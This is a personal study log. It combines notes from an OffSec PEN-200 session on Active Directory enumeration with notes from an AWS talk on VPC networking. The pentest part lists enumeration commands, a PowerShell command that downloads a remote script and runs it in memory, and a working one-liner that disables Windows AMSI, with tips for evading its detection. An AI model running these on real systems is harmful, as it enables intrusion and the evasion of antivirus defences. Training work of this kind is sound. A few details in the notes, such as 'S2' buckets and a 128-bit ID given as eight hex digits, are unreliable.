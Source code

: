 # OffSec Live: PEN-200 & AWS Deep Dive

author:: Nathan Acks  
date:: 2022-08-24

Notes from OffSec Live in the morning (as usual), and then a few more YouTube videos about AWS this evening.

# OffSec Live: PEN-200 - Active Directory Enumeration & Exploitation, Part 1

The Windows `whoami` supports a lot of flags. For example, `whoami /privs` returns privilege information, while `whoami /all` returns *tons* of information about the current user.

The Windows host name will be returned by the `hostname` command.

The Windows `systeminfo` command returns *a lot* of information about the current computer, including the associated domain controller if it's domain-joined.

Use `net users` to enumerate all local users on Windows.

Use `net users /domain` to enumerate domain users. `Administrator`, `Guest`, and `krbtgt` are all standard Windows domain users.

Windows allows for duplicate domain and local users; this is why users get prefixed by the domain or local machine name (and comparing the output of `whoami` and `hostname` will reveal if you're logged in with a local or domain account).

When viewing information about a Windows user, `net user $USERNAME` will return *local* user information, while `net user $USERNAME /domain` *domain* user information.

Local and domain groups can be enumerated in Windows using `net localgroup` and `net group /domain`.

See all Windows administrators for the local system: `net localgroup administrators`

By default, all members of the `Domain Admins` domain group are admins of both the *domain* and *all* machines in that domain.

One way to show domain group membership is to use `net group $GROUP /domain`. However, this *doesn't* show domain groups that are members of that group; for this you need to use PowerShell.

A good enumeration tool is `PowerView.ps1`. 

One tool supplied by `PowerView.ps1` is the `Get-DomainUsers | select name, memberof` command, which gets domain users and associated groups.

The `Get-DomainGroupMember -Identity $GROUP_NAME` command for `PowerView.ps1` will get all domain group members, *including* nested domain groups.

Another `PowerView.ps1` command is `Get-NetLoggedon | select UserName`, will show all users that previously logged on to the current machine. It requires administrative privileges to be run against remote machines.

The `Get-NetSession` command for `PowerView.ps1` shows all users who are logged in to the current machine *right now*. It can be called *without* admin privileges from Windows Server systems.

Finally, the `Invoke-UserHunter` command for `PowerView.ps1` bundles up `Get-NetLoggedon` and `Get-NetSession` to hunt for currently logged in domain admins.

You can download a remote script into memory and execute it using PowerShell using `IEX (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")`. You can also load scripts into variables this way (just replace `IEX` with a variable assignment).

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts). However, there's a lot of bypasses for this - for example, you can cause the AMSI init function to error out using `[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`.

AMSI traps all PowerShell commands that contain all AMSI-function related strings, however. The search uses regular expressions, and can be bypassed by putting portions of the script you're trying to call in variables, and then calling these instead. If you really need a one-liner, you can also do some fancy hex code conversion (see the "Bypass AMSI by manual modification" link).

Be aware that AMSI bypasses are *per session*, not global!

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)

# Another Day, Another Billion Packets

[AWS re:Invent 2015: Another Day, Another Billion Packets (YouTube)](https://youtu.be/R-n4dDGfQd4)

VPC was originally created to help *Amazon* migrate their data centers to AWS.

EC2 originally just assigned new instances random IP addresses in the 10.44.x.x range. Every new instance got its own IP address, and there was no concept of unified subnets.

VPCs solve this! Every VPC gets a non-routable network that you choose. VPC subnets can be anything, so long as they (1) don't overlap and (2) are entirely contained within the VPC network.

VPCs are *not* VLAN based - there are at most 4096 separate VLAN tags.

VPCs are identified internally with a 128 bit number (8 hex digits).

The VPC mapping service is basically an ARP cache on steroids that understands what EC2 instances and VPCs *are* and on which physical servers the instances are located. But the mapping service doesn't *just* provide L2 information - servers receiving packets also verify that those packets are authentic (that the packet's server/instance/VPC tuple matches an existing system).

The mapping service also functions as a "virtual gateway", providing routing information *between* subnets. One interesting consequence of this is that, while in a traditional network inter- and intra-network routing looks slightly different, in AWS this routing is *exactly* the same once packets leave a physical server. L2 and L3 routing are essentially unified within AWS.

In practice, the every server contains a dedicated system that caches from the mapping service. In fact, these devices *pro-actively* cache from the mapping service as instances are spun up within a VPN. *All queries are handled by these caches.*

There are two types of caches - caches to individual hosts (EC2) instances, and caches to "edges", which map to other networks. Direct Connect, VPNs, and internet gateways are implemented at edges.

Edges also function as a 1-to-1 NAT in their role as internet gateways.

Edge devices are called "Blackfoot", after the South African Blackfoot Penguin.

The last non-AWS Amazon web server was deactivated on November 10, 2010. Since then, Amazon has run 100% on AWS. And Amazon uses the same EC2 instances as everyone else.

Edges can also now route to S3, enabling S3 buckets to be exposed *privately* within a VPC. Packets routed to S2 buckets configured in this fashion *never* traverse the public internet - they go out to an edge device and then are routed from there to S3.

S3 buckets can be restricted to particular VPCs, and EC2 instances can be restricted to accessing particular EC2 buckets. All of this is done with the standard Amazon ("Aspen") policy document structure.
